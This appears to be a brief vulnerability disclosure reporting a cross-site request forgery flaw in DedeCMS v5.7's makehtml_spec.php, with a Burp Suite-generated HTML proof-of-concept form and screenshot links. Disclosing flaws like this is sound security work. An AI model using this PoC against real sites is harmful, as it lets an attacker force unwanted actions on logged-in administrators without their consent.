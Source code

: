 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /src/dede/makehtml_spec.php
![1](https://github.com/Hckwzh/cms/assets/128144400/10c3df9b-2132-41e5-8792-51475db68b4a)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/makehtml_spec.php">
      <input type="hidden" name="dopost" value="ok" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>




```
![2](https://github.com/Hckwzh/cms/assets/128144400/5866550e-94d0-4eff-b582-3613b810d039)



successed

![3](https://github.com/Hckwzh/cms/assets/128144400/9e696028-5996-4ed4-9583-4d675df1ee58)
